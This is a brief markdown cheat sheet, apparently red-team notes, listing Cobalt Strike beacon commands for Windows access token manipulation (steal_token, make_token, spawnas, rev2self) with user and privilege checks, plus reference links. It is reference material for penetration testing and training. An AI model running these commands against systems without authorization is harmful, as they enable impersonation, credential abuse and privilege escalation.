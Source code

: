 # Cobalt Strike

## 01 - Steal Token

```
beacon> steal_token <pid>
```

Enumerate current user with privileges.

```
beacon> getuid

beacon> getprivs
```

## 02 - Make Token

```
beacon> make_token <domain>\<username> <password>
```

Enumerate current user with privileges.

```
beacon> getuid

beacon> getprivs
```

## 03 - SpawnAs

```
beacon> spawnas <domain>\<username> <password>
```

Enumerate current user.

```
beacon> getuid
```

## 04 - Revert Token

Revert back to original privileges.

```
beacon> rev2self
```

---
## References

- [Demystifying Cobalt Strike’s “make_token” Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

- [DMCXBlue Gitbook: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)